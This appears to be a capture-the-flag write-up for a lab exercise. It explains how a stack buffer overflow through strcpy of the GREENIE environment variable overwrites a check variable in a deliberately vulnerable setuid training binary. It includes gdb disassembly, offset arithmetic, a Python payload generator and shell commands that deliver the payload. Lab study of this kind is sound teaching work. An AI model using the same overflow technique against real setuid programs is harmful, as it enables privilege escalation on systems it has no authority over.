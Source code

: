 ## ex02

### Objective
The goal of this challenge is to modify a specific variable in the binary and see the message "you have correctly modified the variable".

### Steps Taken

1. **Initial Analysis**:
    - First, we used `file` to determine the type of the binary and `strings` to identify useful strings within the binary.

    ```sh
    file bin
    strings bin
    ```

    **Output of `file bin`**:
    ```
    bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, BuildID[sha1]=05192c075e2384bc94402b41f639965cc9fb9c87, not stripped
    ```

    **Output of `strings bin`**:
    ```
    /lib/ld-linux.so.2
    __gmon_start__
    libc.so.6
    _IO_stdin_used
    strcpy
    puts
    printf
    getenv
    errx
    __libc_start_main
    GLIBC_2.0
    PTRh
    QVhd
    D$\=dcbau
    [^_]
    please set the GREENIE environment variable
    you have correctly modified the variable
    Try again, you got 0x%08x
    ```

2. **Disassembly**:
    - We used `gdb` to disassemble the binary and identify the `getenv` and `strcpy` function calls, which are used to get the `GREENIE` environment variable and copy its value into a buffer.

    ```sh
    gdb bin
    (gdb) break main
    (gdb) run
    (gdb) disassemble main
    ```

    **Disassembly of `main`**:
    ```assembly
    Dump of assembler code for function main:
       0x08048494 <+0>:     push   %ebp
       0x08048495 <+1>:     mov    %esp,%ebp
       0x08048497 <+3>:     and    $0xfffffff0,%esp
       0x0804849a <+6>:     sub    $0x60,%esp
    => 0x0804849d <+9>:     int3   
       0x0804849e <+10>:    add    $0x24,%al
       0x080484a0 <+12>:    loopne 0x8048427 <__do_global_dtors_aux+23>
       0x080484a2 <+14>:    add    $0x8,%al
       0x080484a4 <+16>:    call   0x804837c <getenv@plt>
       0x080484a9 <+21>:    mov    %eax,0x5c(%esp)
       0x080484ad <+25>:    cmpl   $0x0,0x5c(%esp)
       0x080484b2 <+30>:    jne    0x80484c8 <main+52>
       0x080484b4 <+32>:    movl   $0x80485e8,0x4(%esp)
       0x080484bc <+40>:    movl   $0x1,(%esp)
       0x080484c3 <+47>:    call   0x80483bc <errx@plt>
       0x080484c8 <+52>:    movl   $0x0,0x58(%esp)
       0x080484d0 <+60>:    mov    0x5c(%esp),%eax
       0x080484d4 <+64>:    mov    %eax,0x4(%esp)
       0x080484d8 <+68>:    lea    0x18(%esp),%eax
       0x080484dc <+72>:    mov    %eax,(%esp)
       0x080484df <+75>:    call   0x804839c <strcpy@plt>
       0x080484e4 <+80>:    mov    0x58(%esp),%eax
       0x080484e8 <+84>:    cmp    $0xd0a0d0a,%eax
       0x080484ed <+89>:    jne    0x80484fd <main+105>
       0x080484ef <+91>:    movl   $0x8048618,(%esp)
       0x080484f6 <+98>:    call   0x80483cc <puts@plt>
       0x080484fb <+103>:   jmp    0x8048512 <main+126>
       0x080484fd <+105>:   mov    0x58(%esp),%edx
       0x08048501 <+109>:   mov    $0x8048641,%eax
       0x08048506 <+114>:   mov    %edx,0x4(%esp)
       0x0804850a <+118>:   mov    %eax,(%esp)
       0x0804850d <+121>:   call   0x80483ac <printf@plt>
       0x08048512 <+126>:   leave  
       0x08048513 <+127>:   ret    
    End of assembler dump.
    ```

    - We identified the following key points in the disassembly:
      - The `getenv` function is called at offset `+16` to retrieve the `GREENIE` environment variable.
      - The value retrieved by `getenv` is stored at `0x5c(%esp)`.
      - The `strcpy` function is called at offset `+75`, which copies the content of `GREENIE` into a buffer starting at `0x18(%esp)`.
      - There is a comparison at offset `+84` to check if a specific value (`0xd0a0d0a`) is present in the variable located at `0x58(%esp)`.

3. **Determine Buffer Size and Offset**:
    - The destination buffer for `strcpy` starts at `0x18(%esp)`.
    - The target value to set is located at `0x58(%esp)`.
    - The offset from the start of the buffer to the target value is `0x58 - 0x18 = 0x40` (64 bytes).

4. **Craft the Payload**:
    - We created a Python script to generate the payload that overflows the buffer and modifies the target variable.

    ```python
    import struct
    import base64

    buffer_size = 64  # 0x40 in hex
    target_value = 0xd0a0d0a  # Correct little-endian representation of 0xd0a0d0a

    payload = b'A' * buffer_size
    payload += struct.pack("<I", target_value)

    # Encode the payload in base64
    encoded_payload = base64.b64encode(payload).decode('ascii')
    print(encoded_payload)
    ```

5. **Execute the Binary with the Payload**:
    - We used the following commands to set the `GREENIE` environment variable with the crafted payload and run the binary.

    ```sh
    # Generate the payload and print it
    python -c 'import struct, base64; buffer_size = 64; target_value = 0xd0a0d0a; payload = b"A" * buffer_size + struct.pack("<I", target_value); encoded_payload = base64.b64encode(payload).decode("ascii"); print(encoded_payload)'

    # Set the environment variable using the copied output
    export GREENIE=$(echo QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQQoNCg0= | base64 --decode)

    # Run the binary
    ./bin
    ```

### Difficulties Encountered

- **Initial Payload Encoding Issue**:
    - Initially, we encountered a `UnicodeEncodeError` because the terminal was not handling non-ASCII characters properly when trying to directly set the environment variable.
    - To overcome this, we used base64 encoding to safely transfer the payload as an environment variable and then decoded it in the environment variable.

- **Endian Representation**:
    - Another difficulty was ensuring the correct little-endian representation of the target value (`0xd0a0d0a`). Understanding the endianness was crucial to placing the correct value at the desired location in memory.

### How We Knew to Use and Build These Payloads

- **Understanding Buffer Overflow**:
    - From our knowledge of buffer overflow vulnerabilities, we knew that the `strcpy` function can be exploited if it copies more data than the destination buffer can hold.
    - By examining the disassembly, we identified the buffer size and the specific value that needed to be set.

- **Using `gdb` for Analysis**:
    - By using `gdb`, we could disassemble the binary, set breakpoints, and inspect the memory layout.
    - This allowed us to calculate the correct offset from the buffer to the target variable.

- **Payload Construction**:
    - We used Python to construct the payload, ensuring it filled the buffer and placed the correct target value at the precise location.
    - Base64 encoding was used to handle the transfer of the payload safely as an environment variable.

### Output
- The output showed the success message, indicating that we successfully exploited the binary:
    ```
    you have correctly modified the variable
    ```

### Tools Used
- `file`
- `strings`
- `gdb`
- Python

### Educational Purpose
These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities. 

### Script
Include the Python script used to generate the payload:

```python
import struct
import base64

buffer_size = 64  # 0x40 in hex
target_value = 0xd0a0d0a  # Correct little-endian representation of 0xd0a0d0a

payload = b'A' * buffer_size
payload += struct.pack("<I", target_value)
```

# Encode the payload in base64
encoded_payload = base64.b64encode(payload).decode('ascii')
print(encoded_payload)
